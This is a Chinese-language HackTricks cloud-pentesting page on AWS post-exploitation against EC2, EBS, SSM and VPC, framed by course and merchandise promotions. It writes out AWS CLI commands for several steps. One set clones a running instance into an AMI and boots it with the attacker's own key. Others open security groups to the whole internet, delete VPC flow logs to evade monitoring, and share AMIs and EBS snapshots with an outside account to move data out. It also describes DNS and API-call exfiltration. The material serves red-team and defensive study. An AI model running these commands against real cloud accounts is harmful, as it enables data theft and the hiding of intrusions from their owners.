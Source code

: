 # AWS - EC2、EBS、SSM 和 VPC 后渗透

<details>

<summary><strong>从零开始学习 AWS 黑客技术，成为</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>！</strong></summary>

支持 HackTricks 的其他方式：

* 如果您想在 **HackTricks 中看到您的公司广告** 或 **下载 HackTricks 的 PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取 [**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 发现 [**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们独家的 [**NFTs 集合**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享您的黑客技巧。

</details>

## EC2 和 VPC

更多信息请查看：

{% content-ref url="../../../aws-security/aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../../../aws-security/aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### **恶意 VPC 镜像**

VPC 流量镜像**复制 VPC 内 EC2 实例的进出流量**，无需在实例本身上安装任何东西。这个复制的流量通常会被发送到类似网络入侵检测系统 (IDS) 进行分析和监控。\
攻击者可以滥用这一点来捕获所有流量并从中获取敏感信息：

{% content-ref url="../../../aws-security/aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/aws-malicious-vpc-mirror.md" %}
[aws-malicious-vpc-mirror.md](../../../aws-security/aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/aws-malicious-vpc-mirror.md)
{% endcontent-ref %}

### 复制运行中的实例

实例通常包含某种敏感信息。有不同的方法可以进入（查看 [EC2 权限提升技巧](../../../aws-security/aws-privilege-escalation/aws-ec2-privesc.md)）。然而，另一种检查它包含什么的方法是**创建一个 AMI 并从中运行一个新实例（甚至在您自己的账户中）**：
```shell
# List instances
aws ec2 describe-images

# create a new image for the instance-id
aws ec2 create-image --instance-id i-0438b003d81cd7ec5 --name "AWS Audit" --description "Export AMI" --region eu-west-1

# add key to AWS
aws ec2 import-key-pair --key-name "AWS Audit" --public-key-material file://~/.ssh/id_rsa.pub --region eu-west-1

# create ec2 using the previously created AMI, use the same security group and subnet to connect easily.
aws ec2 run-instances --image-id ami-0b77e2d906b00202d --security-group-ids "sg-6d0d7f01" --subnet-id subnet-9eb001ea --count 1 --instance-type t2.micro --key-name "AWS Audit" --query "Instances[0].InstanceId" --region eu-west-1

# now you can check the instance
aws ec2 describe-instances --instance-ids i-0546910a0c18725a1

# If needed : edit groups
aws ec2 modify-instance-attribute --instance-id "i-0546910a0c18725a1" --groups "sg-6d0d7f01"  --region eu-west-1

# be a good guy, clean our instance to avoid any useless cost
aws ec2 stop-instances --instance-id "i-0546910a0c18725a1" --region eu-west-1
aws ec2 terminate-instances --instance-id "i-0546910a0c18725a1" --region eu-west-1
```
### EBS 快照转储

**快照是卷的备份**，通常会包含**敏感信息**，因此检查它们应该会泄露这些信息。\
如果你发现一个**没有快照的卷**，你可以：**创建一个快照**并执行以下操作，或者直接**在账户内的实例中挂载它**：

{% content-ref url="../../../aws-security/aws-post-exploitation/aws-ec2-ebs-ssm-and-vpc-post-exploitation/aws-ebs-snapshot-dump.md" %}
[aws-ebs-snapshot-dump.md](../../../aws-security/aws-post-exploitation/aws-ec2-ebs-ssm-and-vpc-post-exploitation/aws-ebs-snapshot-dump.md)
{% endcontent-ref %}

### 数据渗透

#### DNS 渗透

即使你锁定了 EC2 使得没有流量可以出去，它仍然可以通过 DNS **渗透**。

* **VPC 流日志不会记录这个**。
* 你无法访问 AWS DNS 日志。
*   通过设置 "enableDnsSupport" 为 false 来禁用此功能：

`aws ec2 modify-vpc-attribute --no-enable-dns-support --vpc-id <vpc-id>`

#### 通过 API 调用渗透

攻击者可以调用他控制的账户的 API 端点。Cloudtrail 会记录这些调用，攻击者将能够在 Cloudtrail 日志中看到渗透的数据。

### 开放安全组

你可以通过打开端口来进一步访问网络服务，如下所示：

{% code overflow="wrap" %}
```bash
aws ec2 authorize-security-group-ingress --group-id <sg-id> --protocol tcp --port 80 --cidr 0.0.0.0/0
# Or you could just open it to more specific ips or maybe th einternal network if you have already compromised an EC2 in the VPC
```
{% endcode %}

### SSM 后渗透

{% content-ref url="../../../aws-security/aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/aws-ssm-post-exploitation.md" %}
[aws-ssm-post-exploitation.md](../../../aws-security/aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/aws-ssm-post-exploitation.md)
{% endcontent-ref %}

### 提升至 ECS 权限

可以运行一个 EC2 实例并注册它用于运行 ECS 实例，然后窃取 ECS 实例的数据。

有关[**更多信息，请查看此处**](../../../aws-security/aws-privilege-escalation/aws-ec2-privesc.md#privesc-to-ecs)。

### 移除 VPC 流日志
```bash
aws ec2 delete-flow-logs --flow-log-ids <flow_log_ids> --region <region>
```
### 分享 AMI

{% code overflow="wrap" %}
```bash
aws ec2 modify-image-attribute --image-id <image_ID> --launch-permission "Add=[{UserId=<recipient_account_ID>}]" --region <AWS_region>
```
{% endcode %}

### 分享 EBS 快照

{% code overflow="wrap" %}
```bash
aws ec2 modify-snapshot-attribute --snapshot-id <snapshot_ID> --create-volume-permission "Add=[{UserId=<recipient_account_ID>}]" --region <AWS_region>
```
<details>

<summary><strong>从零到英雄学习AWS黑客技术，参加</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

支持HackTricks的其他方式：

* 如果您想在**HackTricks中看到您的公司广告**或**下载HackTricks的PDF版本**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**telegram群组**](https://t.me/peass)或在**Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
